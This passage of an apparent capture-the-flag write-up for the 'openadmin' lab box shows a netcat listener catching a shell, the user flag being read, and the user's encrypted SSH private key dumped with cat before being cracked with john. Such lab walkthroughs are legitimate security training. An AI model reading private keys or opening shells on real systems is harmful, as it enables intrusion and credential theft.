 ```bash
[1]  + continued  nc -lvnp 4444
                               
joanna@openadmin:/var/www/internal$
```

I got a shell as the user joanna.

### User Flag

---

As joanna I can read the user flag:

```bash
joanna@openadmin:/home/joanna$ cat user.txt
bf95**************************11
```

## joanna → root

---

To get a more stable shell, I grab the SSH key of user joanna and cracked it using john:

```bash
joanna@openadmin:/home/joanna/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
joanna@openadmin:/home/joanna/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
